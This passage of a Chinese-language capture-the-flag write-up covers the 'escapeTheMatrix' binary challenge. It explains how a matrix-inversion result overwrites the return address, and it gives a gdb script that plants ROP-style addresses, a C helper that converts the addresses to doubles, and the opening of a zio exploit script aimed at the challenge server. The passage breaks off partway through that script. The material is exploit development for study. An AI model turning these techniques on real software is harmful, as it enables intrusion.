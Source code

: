 ```
0,0,0,0,0,0,0,0,0,0,0,0,1,0,0,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,1,0,0, 
0,0,0,0,0,a,b,c,d,e, f, g, h,i,1,0,
0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,1]
```

如果该矩阵是存储的结果即逆矩阵，那么此时从a开始的位置，会在函数返回时当成rip，矩阵求逆的过程是可逆的，因此，为了求得固定的逆矩阵，可以将结果当成输入，即把a~i处的值替换成目的结果，求出最原始的的值，由于输入前也不好控制，因此在这里，直接写个gdb脚本来设置如下： 



```
target_name = "escapeTheMatrix_patch"
gdb.execute('file %s'%target_name)
proc_pid = execute_external_output("pidof %s"%target_name)[0].split(' ')[0]
gdb.execute("attach %s"%proc_pid)
gdb.execute("b *0x401018")
gdb.execute("c")
val_list = [0x401c33, 
0x400a60, 
0x401c31, 
0x603020,
0x400D75
]
for i in range(len(val_list)):
gdb.execute("set *(long long*)($rsi+0x20+0x10*14*8+(5+%d)*8)=0x%x"%(i, val_list[i]))
gdb.execute("b *0x4010F2")
gdb.execute("c")
```

将最终的结果，求出来以后，转换得到高精度的值，即求得小数点后面位数越多越好，如下：



```
#include &lt;stdio.h&gt;
int main()
{
while (1)
{
long long val;
printf("&gt;&gt; ");
scanf("%llx", &amp;val);
printf("%.32en", *(double *)&amp;val);
}
}
```

这样求出的结果直接转换成输入即可，最终利用代码如下：



```
from zio import *
is_local = True
is_local = False
binary_path = "./escapeTheMatrix_patch"
libc_file_path = ""
#libc_file_path = "./libc.so.6"
ip = "escapethematrix.quals.nuitduhack.com"
port = 50505
if is_local:
target = binary_path
else:
target = (ip, port)
def get_io(target):
r_m = COLORED(RAW, "green")
w_m = COLORED(RAW, "blue")
#io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
```